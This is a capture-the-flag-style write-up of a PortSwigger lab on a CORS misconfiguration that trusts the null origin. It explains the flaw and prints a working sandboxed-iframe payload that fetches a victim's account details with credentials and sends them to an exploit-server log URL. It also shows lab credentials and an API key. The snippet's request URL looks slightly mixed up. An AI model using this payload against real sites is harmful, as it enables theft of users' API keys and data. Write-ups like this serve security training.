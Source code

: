 ## Lab Description: CORS vulnerability with trusted null origin.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/b35514b4-f5b4-40b8-9364-615210548520)


## Solution:

### Whitelisted null origin value -

The specification for the Origin header supports the value null. Browsers might send the value null in the Origin header in various unusual situations:

Some applications might whitelist the null origin to support local development of the application. For example, suppose an application receives the following cross-origin request:
```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```
And the server responds with:
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```
In this situation, an attacker can use various tricks to generate a cross-origin request containing the value null in the Origin header. This will satisfy the whitelist, leading to cross-domain access. For example, this can be done using a sandboxed iframe cross-origin request of the form:

Login to the website using credentials - wiener:peter.

Once logged in, we can see the API key of wiener.

The GET request to /accountDetails contains `Access-Control-Allow-Credentials` in the response.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/7bfa9ad6-59fb-44eb-90ce-e6c1dd55c590)

 >> Note that there is no Access-Control-Allow-Origin header in response because the Origin header is not specified in the request.

If we give Origin: evil.com in request, we can see that in the response it does not contain any Access-Control-Allow-Origin: evil.com header. Which means evil.com is not in the whitelisted domains.

What happens if we try to give Origin: null in request?

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/68e8343b-ce73-4992-b350-ecd14abbe4bd)

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','0a5000b3043375d0842d91cd0199006b.exploit-server.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='exploit-0a5000b3043375d0842d91cd0199006b.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```


This time we have the Access-Control-Allow-Origin: null header in the response. This means null is in the whitelisted domains.

Some applications might whitelist the null origin to support local development of the application.

So by this we can bypass CORS & retreive the API key of administrator.

Embedding script in iframe -

Scripts that originate from an iframe usually contains Origin: null.

So we need to embed our exploit script inside an iframe.

Script -

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/cc0735cb-bed4-412a-b8f8-e325a09a6a14)

Api Key - n2XSqxeT2bV9R88VgnzWTwCPkaswj6ng


![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/f0570857-d187-48aa-afef-cf23cacc97b8)

Then we can solve this lab.

![image](https://github.com/jayshah17/PortSwiggerLabs/assets/76842630/4059c93f-2d97-42a1-87d0-3f69ea2b8683)
